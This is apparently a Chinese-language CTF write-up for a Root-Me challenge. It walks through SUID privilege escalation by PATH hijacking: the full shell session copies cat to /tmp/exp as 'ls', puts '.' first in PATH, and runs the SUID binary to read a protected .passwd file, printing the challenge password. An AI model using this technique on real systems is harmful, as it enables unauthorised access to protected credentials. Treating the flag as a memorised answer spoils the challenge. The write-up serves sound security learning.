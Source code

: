 # CTF-Solving-Reports
　【App-Script : Bash - System 1】 [[官网入口](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)] [[上级分类](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/rootme/App-Script)]

------

## 考察点

 - SUID权限的可执行文件利用
 - 环境变量 PATH 中含有当前路径 "." 造成的路径胁持
 - 文件权限的传递方式

## 解题思路

> 先直接用脚本讲解正确的解题步骤，后面再解释这个思路是怎么来的）

```shell
# (1) 登入靶机后，首先检查当前的目录环境（当前用户、工作目录、拥有文件、权限等）
app-script-ch11@challenge02:~$ pwd
/challenge/app-script/ch11

# (2) 发现一个具有SUID权限的可执行脚本 ch11、一个只读的C源码文件 ch11.c、一个无法读写隐藏文件 .passwd
#     由此可以猜测最终目标就是要通过某种途径查看 .passwd 的内容
app-script-ch11@challenge02:~$ ll
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 ./
drwxr-xr-x 17 root                    root                    4096 Mar 17  2018 ../
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11*
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

# (3) 查看C源码，其功能就是调用 ls 系统命令，还很贴心地注释了 gcc 编译命令
app-script-ch11@challenge02:~$ more ch11.c
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void) 
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}

# (4) 尝试执行 gcc 编译，发现没有权限在当前目录编译
app-script-ch11@challenge02:~$ gcc -m32 -o ch11 ch11.c
Cannot create temporary file in ./: Permission denied
Aborted

# (5) 直接执行 ch11 脚本，通过其输出可以知道这就是从 ch11.c 编译而来的
#     而且这个脚本还具备 SUID 权限，其 owner 为 app-script-ch11-cracked
#     在前面已经知道，.passwd 文件也是同一个 owner，且只有 owner 可读
#     因此到这里就可以明确，最终的目标就是利用 ch11 脚本的 SUID 位特性进行提取查看 .passwd 文件
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd

# -----------------------------------------------------------
# (?) 这里可能有些同学认为自己“找到了解题方法”：
#         修改 ch11.c 调用的系统命令，如改成 "cat /challenge/app-script/ch11/.passwd"，然后重新编译执行就能达成目的
#         而 ch11.c 是只读的，问题就变成怎么编辑 ch11.c
#
#     这思路其实是错的，这也是出题人希望误导的方向。至于为什么后面再解释，暂时不展开。
#
#     这题的解法其实不是修改 ch11.c 的命令，二是修改其所调用的命令 ls 的语义为 cat 来达到目的
#     简单来说，就是让 ch11 以为自己执行的是 ls ，实际上执行的是 cat（胁持）
# -----------------------------------------------------------

# (6) 需要知道，linux 执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#     这里查看一下当前环境变量 PATH 的内容
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (7) 列出的目录大部分都没有权限查看，但最终在 /bin 目录找到了 ls 和 cat 两个命令的脚本文件
#     当然用直接用 find / -name "cat" 命令找也是可以的，会更快
#     可以发现 ls 和 cat 脚本对所有用户都是可读的，这就为接下来的伪造命令创造了条件
#     我们的目的是：把 cat 伪装成 ls
#     但因为不具备 /bin 目录的写权限，因此不能直接在这里操作
#     但又因为有读权限，所以可以复制去其他我们有写权限的目录操作
app-script-ch11@challenge02:~$ cd /bin
app-script-ch11@challenge02:/bin$ ll | grep -w 'ls'
-rwxr-xr-x  1 root root  108708 Mar 10  2016 ls*
app-script-ch11@challenge02:/bin$ ll | grep -w 'cat'
-rwxr-xr-x  1 root root   46884 Mar 10  2016 cat*

# (8) 很自然就可以想到 /tmp 临时目录，查一下，确实具有写权限
app-script-ch11@challenge02:/bin$ cd /
app-script-ch11@challenge02:/$ ll | grep -w 'tmp'
drwxrwx-wt  20 root root 2166784 Dec 30 13:40 tmp/

# (9) 但是因为不具备对 /tmp 目录的读权限，为了方便操作，在 /tmp 目录下再建一个子目录 exp，权限设为 777
app-script-ch11@challenge02:/$ cd /tmp
app-script-ch11@challenge02:/tmp$ mkdir exp
app-script-ch11@challenge02:/tmp$ chmod 777 exp
app-script-ch11@challenge02:/tmp$ cd exp

# (10) 把 /bin/cat 脚本复制到 /tmp/exp 目录下，并重命名为 ls ， 至此伪装就完成了
app-script-ch11@challenge02:/tmp/exp$ cp /bin/cat .
app-script-ch11@challenge02:/tmp/exp$ mv cat ls
app-script-ch11@challenge02:/tmp/exp$ ll
total 2172
drwxrwxrwx  2 app-script-ch11 app-script-ch11    4096 Dec 30 13:41 ./
drwxrwx-wt 21 root            root            2166784 Dec 30 13:41 ../
-rwxr-x---  1 app-script-ch11 app-script-ch11   46884 Dec 30 13:41 ls*

# (11) 前面说过，linux 在执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#      而 ~/ch11 脚本所调用的系统命令 ls 在 /bin 目录下
#      为了达到路径胁持的目的，可以把当前目录 "." 添加到环境变量 PATH 的最前面
#      使得 linux 在搜索命令脚本的时候，先从当前目录下找
#      而在当前目录 /tmp/exp 下，我们刚刚创造了一个伪装成 ls 的 cat 脚本
app-script-ch11@challenge02:/tmp/exp$ export PATH=.:$PATH
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (12) 把当前目录 "." 添加到环境变量 PATH 后，在当前目录执行 ll 命令已经不起作用了
#      原因是 ll 是命令 ls -la 的缩写别名，因此会连带不生效
app-script-ch11@challenge02:/tmp/exp$ ll
ls: unrecognized option '--color=auto'
Try 'ls --help' for more information.

# (13) 最后，只需要 cd 到伪装成 ls 的 cat 脚本所在的目录下（即使得当前目录变成  /tmp/exp ）
#      再直接调用工作目录下的 ch11 脚本，即可通过 路径胁持+伪装命令 达到提权目的
#      最终我们得到了密码，完成挑战
app-script-ch11@challenge02:/tmp/exp$ ~/ch11
!oPe96a/.s8d5
```


## 解题误区

看了评论区，有大部分同学采用了类似这样的一个错误的做法：

1. 把 ch11.c 复制到 /tmp 目录，然后通过 chmod 赋予自己对 ch11.c 的写权限
2. 用 vim 把 system 命令的 ls 修改成 cat，在 /tmp 目录重新 gcc 编译得到新的 ch11 脚本
3. 通过 chmod u+s  赋予 ch11 脚本 SUID 权限，运行 ch11 脚本，最后报错 `Permission denied` 就做不下去了

为什么这样做无法提权？其实看一下 /tmp 目录 gcc 编译出来的  ch11 脚本的 owner 就知道了：

- 新编译的 ch11 脚本的 owner 是当前用户 app-script-ch11
- 而原本在 app-script-ch11 工作目录的 ch11 脚本的 owner 是 app-script-ch11-cracked

换言之新编译的 ch11 脚本的 SUID 位还是 app-script-ch11 自身，是没有办法利用 SUID 的特性在执行脚本的过程中提权为 app-script-ch11-cracked 的。


![](http://exp-blog.com/wp-content/uploads/2018/12/51806aa7157b830a832568f1a12b39cb.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2006~2018%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
